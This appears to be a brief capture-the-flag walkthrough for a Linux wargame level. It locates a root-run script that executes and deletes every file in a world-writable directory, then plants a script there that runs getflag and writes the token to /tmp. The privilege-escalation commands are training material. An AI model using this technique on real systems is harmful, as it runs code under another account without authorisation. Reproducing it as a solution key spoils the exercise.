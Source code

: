 STEP:
    ls
    -> nothing
    find / -user flag05 2> /dev/null
    ->/usr/sbin/openarenaserver
    ->/rofs/usr/sbin/openarenaserver
    cat /usr/sbin/openarenaserver
    ->
        #!/bin/sh
        for i in /opt/openarenaserver/* ; do
        	(ulimit -t 5; bash -x "$i")
        	rm -f "$i"
        done
    ->
    obvious vunerability
    echo "getflag > /tmp/token_level05" > /opt/openarenaserver/script.sh && chmod +x /opt/openarenaserver/script.sh

END:
    We wait until the script has been executed and we execute
    -> cat /tmp/token_level05
